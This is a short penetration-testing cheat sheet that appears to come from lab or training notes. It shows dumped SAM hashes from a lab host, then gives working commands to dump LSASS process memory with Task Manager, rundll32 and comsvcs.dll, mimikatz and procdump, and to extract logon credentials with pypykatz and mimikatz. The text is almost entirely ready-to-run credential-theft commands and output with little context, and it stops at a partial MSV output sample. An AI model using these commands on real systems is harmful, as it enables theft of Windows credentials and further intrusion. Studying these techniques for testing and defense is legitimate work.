 ```bash
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

## Attacking LSASS

### Dumping LSASS Process Memory

#### Task Manager Method
```
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

A file called lsass.DMP is created and saved in:  C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
#### Rundll32.exe & Comsvcs.dll Method

```powershell
Get-Process lsass

rundll32 C:\windows\system32\comsvcs.dll, MiniDump <ID> C:\lsass.dmp full 
```
```cmd

tasklist /svc | findstr lsass

rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <ID> C:\lsass.dmp full
```
#### mimkatz
```
./mimikatz.exe "privilege::debug" "lsadump::lsa /patch"

```
#### procdump 

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### Extract Credentials
[pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump /home/peter/Documents/lsass.dmp


mimikatz.exe "log" "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit
```
#### MSV
MSV is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. 
```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
```